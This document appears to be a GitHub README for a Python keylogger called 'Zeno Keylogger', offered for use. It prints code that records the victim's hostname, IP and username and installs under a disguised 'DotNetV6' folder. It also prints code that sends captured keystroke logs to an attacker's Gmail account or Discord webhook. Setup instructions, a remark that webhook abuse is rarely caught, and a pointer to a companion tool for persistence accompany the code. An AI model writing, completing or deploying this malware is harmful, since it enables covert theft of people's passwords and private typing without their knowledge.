 ![alt text](https://github.com/Zurek0x/zeno_Hijacker/blob/main/media/Screenshot_1.png?raw=true)
# Zeno Keylogger / Written in Python (EMAIL SERVICE)
This is a keylogger written in Python that includes certain sending methods of logs
specifically Email Servicing and Discord Webhooking.
This is a better way to recieve logs since it doesn't require much effort or leaking
of server configurations or server handling which can be confusing for people and could
lead to more leaks.

# Usage (Pieces of code, Look in Source)
```python
# =?/Settings/?= #
hostname=socket.gethostname()   # Get Hostname of PC (For Logging)
IPAddr=socket.gethostbyname(hostname) # Get IP of PC (For Logging)

user = os.getlogin()# get username of PC
self_path=str(f"{os.getcwd()}") # Get Path of Self #
install_path=str(f"C:\\Users\\{user}\\Documents\\DotNetV6") # Path to install the virus too ( MUST HAVE \\ not \ )
email=str("null@gmail.com") # Email you want to recieve key logs on.
subject=str(f"") # DO NOT TOUCH THIS!
data=str("") # DO NOT TOUCH THIS!

cache = [""] # DO NOT TOUCH THIS!
filename=str("cache.txt") # Cache file name (must include .txt or .md)
file_size_limit_bytes=int(500) # File size limit before it sends Email and clears cache.
```
**Would suggest to change the full_size_limit_bytes=int(500) since this is the max file size before it sends the Email**
```python
class Mail:
    def __init__(self):
        self.port = 465
        self.smtp_server_domain_name = "smtp.gmail.com"
        self.sender_mail = "null@gmail.com"
        self.password = "null"
    def send(self, emails, subject, content):
        ssl_context = ssl.create_default_context()
        service = smtplib.SMTP_SSL(self.smtp_server_domain_name, self.port, context=ssl_context)
        service.login(self.sender_mail, self.password)
        for email in emails:
            result = service.sendmail(self.sender_mail, email, f"Subject: {subject}\n{content}")
        service.quit()

class Send:
    # Gmail #
    def Gmail(email, subject, data):
        mails=str(email).split()
        subject=subject
        content=str(data)
        print(content)
        mail = Mail()
        mail.send(mails, subject, content)
        print("Sent")
    # Discord Webhook #
    def Webhook(subject, install_path, filename):
        webhook_url=str("discord webhook")
        constructed_data=str(f"""
```
{subject}
```
        """)
        webhook = DiscordWebhook(url=str(webhook_url),
        content=str(constructed_data),
        rate_limit_retry=True,
        username=f"Webhook With Files"
        )
        with open(f"{install_path}\\{filename}", "r") as f:
            webhook.add_file(file=f.read(), filename=f"log.txt")
        response = webhook.execute()
```

# !NOTICE FOR GMAIL OR GOOGLE USERS!
**For gmail users who are sending the Emails using Google Email Services like Gmail must setup a Less Secure App.**
**To set this up review the video here -> https://youtu.be/pAPWBHxnFHM <- Once you do this replace the 2 Lines below.**
![alt text](https://github.com/Zurek0x/zeno_keylogger/blob/main/media/mok.png?raw=true)
# !NOTICE FOR DISCORD/WEBHOOK USERS!
**To setup your discord webhook go inside the file "exec_send.py" and find the line called "webhook_url=str("Your Webhook")" and replace it with your discord webhook that you are going to use to recieve messages.**
**Most people should be able to do this, No guide is needed.**
# !NOTICE FOR BOTH! #
**It should be advised that the discord webhook is way faster and more reliable then Email Service but do keep in note it is against discords Terms Of Service and Conduct which could lead to your account getting banned.**
**Of course this is very rare and usually doesn't happen as long as nobody reports your account or webhook, But do keep in note of that.**

# Starting up with windows and extra stuff
To use these features you must import the code into zeno_Embedder which is a tool to do exactly this -> https://github.com/Zurek0x/zeno_Embedder